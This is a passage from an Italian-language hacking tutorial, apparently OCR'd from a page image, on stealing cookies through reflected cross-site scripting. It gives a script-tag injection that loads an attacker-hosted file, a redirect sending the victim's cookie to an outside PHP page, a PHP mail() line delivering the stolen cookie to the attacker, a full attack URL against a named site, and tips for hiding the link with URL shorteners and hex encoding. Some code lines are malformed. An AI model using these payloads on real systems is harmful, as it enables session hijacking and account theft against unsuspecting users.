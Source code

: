 richiama una pagina in php che si occupa di loggare i Cookie dell'user che apre il link

appositamente preparato.

Praticamente:

Codice Javascript:

"><script src="http://www.nostrosito.com/cookiescript.js"></script>

All'interno del file cookiescript.js ci scriveremo il codice che passa il Cookie ad una

pagina php:

<script>location.href="http://nostrosito.com/cookie.php?cookie=</script>

Il file cookie.php invece conterrÃ  il codice php che si occupa di farci recapitare il

cookie:

<? mail("nostra@mail.com","Ecco il cookie rubato",$_GET['cookie']; ?>

Uppato il tutto l'url sarÃ  all'incirca:

http://www.caiotizio.it/default.asp?rif=1&tiporicerca=2&strRicerca1="><script

src="http://www.nostrosito.com/cookiescript.js"></script>


Code:
[+]Offuscamento dell'url

Ora dobbiamo occuparci di come nascondere l'url sopra descritta in modo tale che un utente

normale non si accorga di nulla (molte persone non si accorgono neppure di un link con

all'interno del javascript code ben in vista,comunque noi facciamo le cose per bene)

Abbiamo diverse opzioni:

1#-- P0ssiamo nascondere l'url attraverso alcuni servizi quali tinyurl(www.tinyurl.com),che

ci permette di rendere un qualsiasi indirizzo web qualcosa del tipo:

http://tinyurl.com/2rery1


2#-- Possiamo convertire l'intera url in hex:

http://www.caiotizio.it/default.asp?rif=1&tiporicerca=2&strRicerca1=223e3c736372697074207372

633d22687474703a2f2f7777772e6e6f7374726f7369746f2e636f6d2f636f6f6b69657363726970 742e6a73223e

3c2f7363726970743e

In questo modo sembrerÃ  un normalissimo link.

Se L'utente aprirÃ  il link e tutto va a bu0n fine vedremo nella nostra casella postale i

c00kie della vittima in questi0ne.







Code:
[+]XSS Non Sfruttabili
